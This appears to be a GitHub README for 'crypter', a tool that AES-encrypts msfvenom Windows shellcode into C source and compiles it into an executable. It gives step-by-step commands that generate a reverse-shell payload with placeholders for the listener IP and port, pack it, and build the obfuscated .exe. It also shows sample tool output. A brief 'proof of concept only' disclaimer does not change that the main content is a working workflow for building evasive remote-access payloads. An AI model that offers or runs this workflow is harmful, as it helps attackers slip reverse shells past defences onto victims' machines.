 # crypter
A shellcode crypto-packing tool for PoC (used with msfvenom/binary payloads)

This tool is for proof of concept only - please use responsibly.

Crypter is an auxiliary tool used for crypto packing msfvenom Windows payloads.
It uses AES128 (optimal for speed) to encrypt the payload and create C source from it from which you can compile (on linux or windows) into an executable.

You will need to install `MinGW` on Linux in order to compile `.exe` files:

```
$ apt-get update
$ apt-get install mingw-w64
```
________________________________

#Install

First, you will need to install the dependency/dependencies that `crypter` relies on (mainly OpenSSL):

```
$ apt-get install libssl-dev
```

Then, download this repository and install:

```
$ git clone https://github.com/ripmeep/crypter/ && cd crypter
$ gcc crypter.c -o crypter -lcrypto -I src/
```

#Usage

You will need to generate/already have a file that contains raw shellcode that you wish to execute in an exe file.
Metasploit is a good way of generating one for reverse shells/exploits. (https://github.com/rapid7/metasploit-framework/)

Generate a payload:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[LISTENER IP] LPORT=[LISTENER PORT] -f raw -o payload.bin
```

Run crypter to crypto pack the shellcode into a C source binary:

```
$ crypter payload.bin shell.exe
Extracted contents of payload.dat
Generated random AES256 Cryto Pack key: 924C2038A4B0DEFDF8420A2A896688CE900DD26109759A4CAE0681A147A64FA5
Generated random initialization vector: 34A7B03E8F2CD3023ED2BF78ECC8AE846D84B30F96E97BC02189820276DEB229
Successfully encrypted payload - generating exe file

Generated Crypto C source
Writing source to shell.exe.c...
Done
Now run: x86_64-w64-mingw32-gcc shell.exe.c -o shell.exe -fno-stack-protector
Finished
```

It will then display the MinGW command you need to run to compile the source file.
`x86_64-w64-mingw32-gcc shell.exe.c -o shell.exe -fno-stack-protector` (my case).
